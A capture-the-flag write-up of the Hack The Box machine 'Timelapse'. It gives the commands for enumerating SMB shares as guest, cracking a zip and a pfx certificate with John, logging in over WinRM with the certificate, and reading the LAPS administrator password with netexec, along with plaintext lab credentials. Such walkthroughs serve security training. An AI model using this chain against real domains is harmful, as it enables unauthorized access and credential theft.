 ```yaml
---
title: HTB - Timelapse (Easy)
date: '2025-07-15'
tags: ['machine', 'windows', 'Active Directory', 'LAPS', 'pfx2john', 'SSL', 'ReadLAPSPassword']
draft: false
summary: Guest logon enumeration was allowed that lead to a zip and pfx file that was crackable by John, giving user access and then discovering Powershell history commands that lead to mapping DACLs hinting at LAPS being enabled. This also lead to reading the DA password in plaintext
---
```


![Description](/static/images/htb/windows/timelapse/Timelapse.png)

<TOCInline toc={props.toc} asDisclosure />

## Scanning

```
❯ nmap -sV -sC -v -Pn 10.129.233.112

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 02:40 +08
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 02:40
Completed NSE at 02:40, 0.00s elapsed
Initiating NSE at 02:40
Completed NSE at 02:40, 0.00s elapsed
Initiating NSE at 02:40
Completed NSE at 02:40, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 02:40
Completed Parallel DNS resolution of 1 host. at 02:40, 0.01s elapsed
Initiating Connect Scan at 02:40
Scanning 10.129.233.112 [1000 ports]
Discovered open port 139/tcp on 10.129.233.112
Discovered open port 53/tcp on 10.129.233.112
Discovered open port 135/tcp on 10.129.233.112
Discovered open port 445/tcp on 10.129.233.112
Discovered open port 3268/tcp on 10.129.233.112
Discovered open port 389/tcp on 10.129.233.112
Discovered open port 593/tcp on 10.129.233.112
Discovered open port 88/tcp on 10.129.233.112
Discovered open port 636/tcp on 10.129.233.112
Discovered open port 3269/tcp on 10.129.233.112
Discovered open port 464/tcp on 10.129.233.112
Completed Connect Scan at 02:40, 4.54s elapsed (1000 total ports)
Initiating Service scan at 02:40
Scanning 11 services on 10.129.233.112
Completed Service scan at 02:40, 9.60s elapsed (11 services on 1 host)
NSE: Script scanning 10.129.233.112.
Initiating NSE at 02:40
Completed NSE at 02:41, 40.09s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.46s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Nmap scan report for 10.129.233.112
Host is up (0.018s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-07-15 02:40:54Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-15T02:40:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m58s

NSE: Script Post-scanning.
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.98 seconds
```
---

## Enumeration

Guest logon is enabled, let's try enumerate shares

![Description](/static/images/htb/windows/timelapse/1.jpg)

```
❯ smbclient -L timelapse.htb -U a%
```

![Description](/static/images/htb/windows/timelapse/2.jpg)

We can see a non-default share called `Shares`. Listing that reveals a few files

![Description](/static/images/htb/windows/timelapse/3.jpg)

Some of them are an installer and guide and specification on setting up LAPS. This may be
hinting that the target server domain uses LAPS

>[!TIP]
> Local Administrator Password Solution (LAPS) is a tool used for managing a system where
> administrator-passwords, which are unique, randomized and frequently changed are applied
> domain-joined computers

Another interesting file is the zip file called `winrm-backup` which maybe has credentials that
allows us to WinRM to the target. 

Attempting to unzip it will prompt us for a password to unlock a `.pfx` file which is a bianry file that contains a
certificate (public key), private key and a certificate chain

![Description](/static/images/htb/windows/timelapse/4.jpg)

---

## Cracking

After much enumeration that leads to nowhere, I decided to bruteforce the password of the zip file using `zip2john`

```
❯ zip2john winrm_backup.zip > hash.txt                                 
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Description](/static/images/htb/windows/timelapse/5.jpg)

Great now we have the `legacyy_dev_auth.pfx` file. Now the thing with `.pfx` or `pkcs12` files is that they are password-protected unlike `.pem` files

I found this neat tool, pfx2john which is basically what it sounds like xD, means we can also bruteforce the `.pfx` file password

```
❯ pfx2john legacyy_dev_auth.pfx > pfx_hash.txt
❯ john --wordlist=/usr/share/wordlists/rockyou.txt pfx_hash.txt
```

![Description](/static/images/htb/windows/timelapse/6.jpg)

---

## Gaining Access

Nice, now we also have the password of the `.pfx` file, another thing I also learned is we can use this file
to have an SSL WinRM session on the target! but first, we need to split the `.pfx` file into `.pem` and `.crt`.

```
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt -nodes
```

Then, we supply them as arguments into `evil-winrm` but we need to also specify `-S` argument because we are authenticating over SSL

```
❯ evil-winrm -i timelapse.htb -S -k key.pem -c cert.crt
```

![Description](/static/images/htb/windows/timelapse/7.jpg)

---

## Privilege Escalation

I uploaded and ran Winpeas and saw some interesting stuff like this Powershell history file being present

![Description](/static/images/htb/windows/timelapse/8.jpg)

Concatenating the file reveals past Powershell commands that were ran on the target. We can see here that
it reveals the password of the user `svc_deploy`. 

![Description](/static/images/htb/windows/timelapse/9.jpg)

Let us verify the credentials

![Description](/static/images/htb/windows/timelapse/10.jpg)

Yep, its correct. Now we can run Bloodhound to map some potential DACLs

```
❯ nxc ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --dns-server 10.129.233.112 --bloodhound --collection All
```

![Description](/static/images/htb/windows/timelapse/12.jpg)

Looking at Bloodhound, we can see `svc_deploy` is a member of the  `Laps_Readers` group that has a `ReadLAPSPassword` Edge.
This means we can use his credentials to read the password of `Administrator`

Luckily, Netexec has a command option that helps us with this

```
❯ nxc smb timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps
```

![Description](/static/images/htb/windows/timelapse/13.jpg)

Boom! just like that we have `Administrator`'s credentials, let us verify this

![Description](/static/images/htb/windows/timelapse/14.jpg)

Yes, it is correct. We can proceed to WinRM with the SSL option

```
❯ evil-winrm -i timelapse.htb -u administrator -p '@-u{P+{oYZ[C9g%}S1!%XP}m' -S
```

![Description](/static/images/htb/windows/timelapse/15.jpg)

Whas was weird was the root flag was nowhere to be seen. This was a first xD. So i went to look at the Users and saw
mr `TRX` over here

![Description](/static/images/htb/windows/timelapse/16.jpg)

And the root flag was there!

![Description](/static/images/htb/windows/timelapse/17.jpg)

---

## Sources

 - https://cicada-8.medium.com/adcs-so-u-got-certificate-now-ive-got-nine-ways-to-abuse-it-861081cff082





